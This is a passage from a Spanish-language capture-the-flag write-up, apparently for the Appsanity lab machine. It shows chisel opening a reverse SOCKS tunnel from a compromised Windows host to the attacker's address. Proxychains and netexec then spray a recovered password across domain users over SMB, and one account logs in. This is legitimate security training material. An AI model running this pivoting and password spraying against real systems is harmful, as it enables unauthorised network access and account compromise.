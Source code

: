Ahora en la máquina víctima podemos compartirnos en forma de proxy de tipo socks los puertos de la máquina víctima.
```console
*Evil-WinRM* PS C:\ProgramData> .\chisel.exe client 10.10.14.104:1234 R:socks
chisel.exe : 2024/09/12 09:24:49 client: Connecting to ws://10.10.14.104:1234
    + CategoryInfo          : NotSpecified: (2024/09/12 09:2....10.14.104:1234:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2024/09/12 09:24:49 client: Connected (Latency 35.9469ms)
```

En el archivo `/etc/proxychains.conf` podemos configurar como proxy el puerto 1080 de nuestra máquina local.
![Write-up Image](images/Screenshot_46.png)

Ahora para hacer una prueba, podemos utilizar `netexec` para comprobar el usuario que teníamos pero a través del SMB que recordemos que estaba cerrado.

> [!NOTE]
> Recordar que ahora nuestra IP víctima es la dirección de loopback, ya que con `proxychains` los paquetes pasan a la máquina víctima a través del proxy y una vez están allí, como nos queremos dirigir a la misma máquina víctima podemos hacer esto con la dirección de loopback.

```console
$ proxychains nxc smb 127.0.0.1 -u users.txt -p '1g0tTh3R3m3dy!!' --continue-on-success 2>/dev/null
ProxyChains-3.1 (http://proxychains.sf.net)
SMB         127.0.0.1       445    APPSANITY        [*] Windows 10 / Server 2019 Build 19041 x64 (name:APPSANITY) (domain:Appsanity) (signing:False) (SMBv1:False)
SMB         127.0.0.1       445    APPSANITY        [-] Appsanity\ianc:1g0tTh3R3m3dy!! STATUS_LOGON_FAILURE 
SMB         127.0.0.1       445    APPSANITY        [-] Appsanity\johnd:1g0tTh3R3m3dy!! STATUS_LOGON_FAILURE 
SMB         127.0.0.1       445    APPSANITY        [-] Appsanity\marym:1g0tTh3R3m3dy!! STATUS_LOGON_FAILURE 
SMB         127.0.0.1       445    APPSANITY        [-] Appsanity\sarahh:1g0tTh3R3m3dy!! STATUS_LOGON_FAILURE 
SMB         127.0.0.1       445    APPSANITY        [-] Appsanity\svc_exampanel:1g0tTh3R3m3dy!! STATUS_LOGON_FAILURE 
SMB         127.0.0.1       445    APPSANITY        [-] Appsanity\svc_meddigiportal:1g0tTh3R3m3dy!! STATUS_LOGON_FAILURE 
SMB         127.0.0.1       445    APPSANITY        [+] Appsanity\devdoc:1g0tTh3R3m3dy!! 
SMB         127.0.0.1       445    APPSANITY        [-] Appsanity\svc_meddigi:1g0tTh3R3m3dy!! STATUS_LOGON_FAILURE 
```
